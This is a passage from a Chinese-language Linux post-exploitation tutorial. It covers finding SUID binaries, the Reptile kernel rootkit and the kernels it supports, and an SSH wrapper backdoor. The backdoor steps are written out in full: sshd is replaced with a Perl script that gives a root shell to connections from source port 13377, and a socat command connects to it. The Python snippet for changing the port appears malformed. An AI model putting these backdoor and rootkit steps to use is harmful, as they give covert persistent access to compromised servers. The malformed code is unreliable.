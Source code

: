 ```
find / -perm +4000 -ls 
find / -perm -u=s -type f 2>/dev/null
```

### 0x03 LKM Linux rootkit后门

项目地址:[https://github.com/f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

适用的系统:

```
Debian 9：4.9.0-8-amd64  
Debian 10：4.19.0-8-amd64  
Ubuntu 18.04.1 LTS：4.15.0-38-generic  
Kali Linux：4.18.0-kali2-amd64  
Centos 6.10：2.6.32-754.6.3.el6.x86_64  
Centos 7：3.10.0-862.3.2.el7.x86_64  
Centos 8：4.18.0-147.5.1.el8_1.x86_64
```



### 0x04 SSH 后门

#### 4.1 SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中:

```
cd /usr/sbin/ 
mv sshd ../bin/  
echo '#!/usr/bin/perl' >sshd 
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd   //4A是13377的小端模式 
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd chmod u+x sshd  /etc/init.d/sshd restart
```

在本机执行:

```
socat STDIO TCP4:target_ip:22,sourceport=13377
```



![](https://minioapi.nerubian.cn/image/20250120141330244.png)

实现原理：init 首先启动的是 /usr/sbin/sshd ,脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行sh给个shell。

想要修改连接端口的话可以利用py修改：

```
import struct buffer = struct.pack('>I6',19526) print repr(buffer)
```

![](https://minioapi.nerubian.cn/image/20250120141334525.png)
